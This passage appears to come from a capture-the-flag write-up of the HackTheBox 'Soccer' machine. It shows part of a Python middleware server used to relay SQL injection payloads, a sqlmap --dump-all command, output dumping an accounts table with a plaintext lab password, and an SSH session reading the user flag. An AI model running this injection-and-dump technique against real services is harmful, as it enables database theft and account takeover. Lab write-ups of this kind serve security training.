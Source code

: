 ```python

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

And I used in combo with [SQLMap](https://sqlmap.org/) with the following command:

    sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs

```bash
[07:18:27] [INFO] fetching entries for table 'accounts' in database 'soccer_db'
[07:18:27] [INFO] fetching number of entries for table 'accounts' in database 'soccer_db'
[07:18:27] [INFO] retrieved: 1
[07:18:38] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
player@player.htb
[07:27:33] [INFO] retrieved: 1324
[07:29:19] [INFO] retrieved: PlayerOftheMatch2022
[07:38:28] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

[07:41:23] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/asd/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
[07:41:23] [INFO] fetched data logged to text files under '/home/asd/.local/share/sqlmap/output/localhost'
[07:41:23] [WARNING] your sqlmap version is outdated
```

After a while, SQLMap found `soccer_db` with some credentials which I used to connect via SSH and get the user flag.

```bash
player@soccer:~$ ls
user.txt
player@soccer:~$ cat user.txt 
820da1d6ee3b0f084dc4ed999de201b4  
```
